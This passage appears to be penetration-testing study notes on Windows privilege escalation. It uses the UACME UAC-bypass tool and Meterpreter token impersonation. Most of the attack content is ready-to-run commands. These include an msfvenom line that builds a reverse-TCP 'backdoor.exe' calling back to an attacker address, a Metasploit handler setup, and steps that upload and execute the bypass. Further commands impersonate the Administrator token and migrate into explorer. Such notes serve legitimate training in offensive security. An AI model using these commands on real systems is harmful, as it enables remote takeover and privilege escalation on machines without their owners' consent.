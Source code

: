 #### UACME by hfiref0x

Downloaded the files from the repository, we can create a payload with MSFVenom.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=1234 -f exe > backdoor.exe
```
### Metaslpoit
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
```
### Meterpreter
```
cd C:\\
mkdir Temp
cd Temp
upload backdoor.exe
upload /root/Desktop/tools/UACME/Akagai64.exe
shell
.\Akagai64.exe 23 C:\Temp\backdoor.exe
```
The number 23, as mentioned in the documentation, is assigned to the particular Windows version of the target machine.

The script open a new meterpreter session thanks to the multi/handler that can be used to elevate our privileges.

## Access Token Impersonation

Windows access tokens are tokens generated by the Local Security Authority Subsystem Service (LSASS). These tokens are used by network-related services to access their services without requiring the user to enter their credentials repeatedly.

To be successful, this attack needs the attacker to be in possessions of these privileges:
* SeAssignPrimaryToken - token impersonation
* SeCreateToken - it is used to create new tokens
* SeImpersonatePrivilege - it can create a process impersonating another user with elevated privileges


### Incognito Module (Meterpreter)

We need to check if among our privileges there is SeImpersonatePrivilege.
```
getprivs
```
Then we can proceed with Incognito.
```
load incognito
list_tokens -u
impersonate_token “ATTACKDEFENSE\Administrator”
pgrep explorer
migrate 1234
```
If we can’t find any useful token, we must proceed with a “potato attack.”
